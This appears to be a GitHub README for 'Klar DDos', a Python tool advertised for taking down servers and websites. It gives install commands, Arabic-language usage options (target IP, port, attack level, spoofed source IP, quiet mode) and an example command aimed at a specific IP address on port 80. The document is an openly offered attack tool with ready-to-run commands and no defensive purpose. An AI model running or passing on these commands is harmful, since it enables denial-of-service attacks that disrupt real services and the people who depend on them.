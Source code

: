 # Klar DDos

[YouTube Channel Subscribers](https://youtu.be/@A_W_C)

## .
[Telegram](https://t.me/AWCODE3)


DDOS strong tool to stop servers and sites



## installing

- 1 . <code> pkg install python </code>
- 2 . <code> git clone https://github.com/AlawiDiv/KlarDDos  </code>
- 3 . <code> cd KlarDDos </code>
- 4 . <code> pip install -r installing.txt </code>
- 5 . <code> python KlarDdos.py -h  </code>




### Command information:
    الاستخدام :
$ <code>python KlarDdos.py [-i] [-p] [-l]    </code>     

│         -h : للمساعده                             
│         -i : اي بي السيرفر                            
│         -p : البورت المراد استهدافه                          
│         -l : عدد مستويات الهجوم                
│         -f : ال ايبي الزائف اختياري                              
│         -d : اخفاء وتقليل الرسائل المنبثقه                         
 مثال :                                        
<code> python KlarDdos.py -i 92.204.214.136 -p 80 -l  2 </code>



A short video explaining the tool https://youtu.be/@A_W_C
